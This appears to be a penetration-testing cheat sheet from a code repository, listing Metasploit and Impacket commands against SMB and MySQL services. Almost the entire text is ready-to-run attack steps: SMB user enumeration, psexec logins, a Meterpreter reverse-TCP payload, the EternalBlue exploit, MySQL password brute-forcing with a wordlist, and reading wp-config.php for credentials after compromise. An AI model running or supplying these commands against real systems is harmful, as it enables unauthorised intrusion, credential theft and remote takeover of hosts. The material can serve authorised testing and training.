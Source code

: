 ```bash
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS <TARGET_IP>
set SMBUser <USER>
set SMBPass <PW>
run

## SMB Login with <USER>
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
python3 psexec.py Administrator@<TARGET_IP>
python3 psexec.py <USER>@<TARGET_IP>

# msfconsole - Meterpreter
use exploit/windows/smb/psexec
set RHOSTS <TARGET_IP>
set SMBUser Administrator
set SMBPass <PW>
set payload windows/x64/meterpreter/reverse_tcp
run

# Without <USER>:<PW>, exploit a vulnerability, e.g. EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run
```

#### MYSQL

```bash
# Targeting MYSQL (Wordpress)
nmap -sV -sC -p 3306,8585 <TARGET_IP>

searchsploit MySQL 5.5

## Brute-force MySql - msfconsole
msfconsole -q
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <TARGET_IP>
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

## MYSQL Login with <USER>
mysql -u root -p -h <TARGET_IP>

show databases;
use <db>;
show tables;
select * from <table>;

## msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run

sysinfo
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
shell
```
